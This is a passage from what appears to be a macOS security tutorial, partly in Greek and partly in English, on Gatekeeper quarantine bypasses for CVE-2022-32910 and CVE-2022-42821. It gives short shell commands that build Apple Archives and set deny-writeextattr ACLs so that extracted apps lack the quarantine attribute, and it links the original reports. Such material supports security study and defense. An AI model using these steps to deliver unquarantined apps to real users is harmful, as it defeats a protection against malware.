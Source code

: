 ### [CVE-2022-32910](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-32910)

Ακόμα και αν τα συστατικά είναι διαφορετικά, η εκμετάλλευση αυτής της ευπάθειας είναι πολύ παρόμοια με την προηγούμενη. Σε αυτή την περίπτωση θα δημιουργήσουμε ένα Apple Archive από **`application.app/Contents`** έτσι ώστε **`application.app` να μην αποκτήσει την ιδιότητα καραντίνας** όταν αποσυμπιεστεί από το **Archive Utility**.
```bash
aa archive -d test.app/Contents -o test.app.aar
```
Check the [**original report**](https://www.jamf.com/blog/jamf-threat-labs-macos-archive-utility-vulnerability/) for more information.

### [CVE-2022-42821](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/)

Η ACL **`writeextattr`** μπορεί να χρησιμοποιηθεί για να αποτρέψει οποιονδήποτε από το να γράψει ένα χαρακτηριστικό σε ένα αρχείο:
```bash
touch /tmp/no-attr
chmod +a "everyone deny writeextattr" /tmp/no-attr
xattr -w attrname vale /tmp/no-attr
xattr: [Errno 13] Permission denied: '/tmp/no-attr'
```
Moreover, **AppleDouble** file format copies a file including its ACEs.

In the [**source code**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html) it's possible to see that the ACL text representation stored inside the xattr called **`com.apple.acl.text`** is going to be set as ACL in the decompressed file. So, if you compressed an application into a zip file with **AppleDouble** file format with an ACL that prevents other xattrs to be written to it... the quarantine xattr wasn't set into de application:

{% code overflow="wrap" %}
```bash
chmod +a "everyone deny write,writeattr,writeextattr" /tmp/test
ditto -c -k test test.zip
python3 -m http.server
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr
```
{% endcode %}

Δείτε την [**πρωτότυπη αναφορά**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) για περισσότερες πληροφορίες.

Σημειώστε ότι αυτό θα μπορούσε επίσης να εκμεταλλευτεί με AppleArchives:
```bash
mkdir app
touch app/test
chmod +a "everyone deny write,writeattr,writeextattr" app/test
aa archive -d app -o test.aar
```
### [CVE-2023-27943](https://blog.f-secure.com/discovery-of-gatekeeper-bypass-cve-2023-27943/)
